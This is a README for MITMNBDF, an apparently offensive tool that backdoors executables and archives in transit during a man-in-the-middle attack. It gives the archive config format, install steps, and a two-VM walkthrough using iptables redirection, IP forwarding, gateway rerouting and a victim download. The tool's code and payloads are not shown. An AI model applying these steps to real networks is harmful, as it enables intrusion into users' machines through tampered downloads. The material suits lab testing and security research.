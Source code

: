 # MITMNBDF v1.0
MITMNBDF (_MITM 'n' BDF_) is a kind of `BDFProxy` (https://github.com/secretsquirrel/BDFProxy) rewrite, from which it takes great inspiration.

## What's new (v1.0)
- archive types are handled by the config file: you can add support for new archive types just by editing the config file (default is `mitmnbdf.cfg`) following the format outlined in the next paragraph. This means that you can add new file types support without stopping `mitmnbdf`, giving maximum flexibility.
- mostly of the static variables are now handled by the config file (default is `mitmnbdf.cfg`)
- the whole config file is parsed on every traffic request, that means: it can be edited anytime and the script will adapt in real-time. Most notably, now you can edit the `[targets]` section, so you can change IP addresses, ports, payloads and others without closing `mitmnbdf` 
- multiprocess supports thanks to python `multiprocessing` module. Every stream will run on a dedicate process
- adding support for domain name in log file and output, so you can specify domain names in the `[targets]`
- adding support for multiple metasploit resource files based on `[targets]`: each target now has its own resource file, to reflect the changes that can be made in real time to the config file (the resource file per target follows the format `example_domain_org_msf.rc`).
- log file is grep-friendly: the format helps tools to grep for information. The log format is `date|loglevel|message`, where _loglevel_ is always 4 chars (`ERRO`, `WARN`, `INFO`, `DEBG` and `CRIT` @ EnhancedOutput class)
- more robust error checking and error handling

### File type format
Just as example, the following lines define a new archive file type called 'antani' (a fantasy one) in the `mitmnbdf.cfg`:

```
# don't forget to add your archive type in 'supportedArchiveTypes
# archive type name must be upper letters
supportedArchiveTypes = ZIP, TAR, AR, DEB, LZMA, ANTANI

[...]

[ANTANI]
# patchCount is the max number of files to patch in a zip file
# After the max is reached it will bypass the rest of the files 
# and send on it's way

patchCount = 5

# In Bytes
maxSize = 40000000

blacklist = .dll,  # don't do dlls in the archive file

# here we have a list of all the mime types that belongs to the archive type.
# you can use the command 'file --mime-types archive_file.ext' to fill the variable
mimes = "application/x-antani-compressed", "application/antani"

	# then we specified for each mime types what kind of format and filter we need to
	# apply to create the archive. You can find it out by looking at the libarchive-c source code
	[["application/x-antani-compressed"]]
	format = antani
	filter = xz

	[["application/antani"]]
	format = antani
	filter = None
```

## Why forking
I felt the BDFProxy source code needed a proper redesign to be able to add more features and flexibility, giving the great job Josh did with Backdoor Factory and BDFProxy.
I tried to work with Josh to redesign the code, but he has his ideas and way to manage code that is incompatible with my coding style. Variety is the spice of life.

## How to install
You need to install the python packages listed in `requirements.txt` (hint: `sudo pip install -r requirements.txt`). Before doing that, you need to install `libarchive-dev` from your packet manager. (`sudo apt-get install libarchive-dev` on Debian/Ubuntu).

You need to initialise the `bdf` submodule, so:
```
~/mitmnbdf$ git submodule init
~/mitmnbdf$ git submodule update
```

## How to use
Simply type `sudo python mitmnbdf.py`. Be sure to edit the config file and add your IP addresses and ports in the `[targets]` section.

Of course, you have already mitm'd your victim(s) (use your favourite tool)
To run a quick test, you can setup two VMs as follow:

#### VM A (mitmnbdf)
```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:32:0e:37  
          inet addr:192.168.8.129  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe32:e37/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:466 errors:0 dropped:0 overruns:0 frame:0
          TX packets:430 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:282593 (282.5 KB)  TX bytes:356018 (356.0 KB)
~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         192.168.8.2     0.0.0.0         UG    0      0        0 eth0
192.168.8.0     0.0.0.0         255.255.255.0   U     0      0        0 eth0

~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyPort
proxyPort = 8080
~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyMode
proxyMode = transparent  # <-- this is important!!!

~$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
~$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward

~/mitmnbdf$ sudo python mitmnbdf.py
```

#### VM B (victim)

```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e1:a1:ed  
          inet addr:192.168.8.135  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fee1:a1ed/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:263 errors:0 dropped:0 overruns:0 frame:0
          TX packets:403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:209801 (204.8 KiB)  TX bytes:31364 (30.6 KiB)

~$ sudo route add default gw 192.168.8.129
~$ sudo route del default gw 192.168.8.2
~$ curl -O http://example.com/mysw.exe
```

## WARNING
This project uses `python-libarchive-c` (https://github.com/Changaco/python-libarchive-c) that is a wrapper for `libarchive` (https://github.com/libarchive/libarchive) which suffers from various bugs that could lead to a remote exploit. Use with care.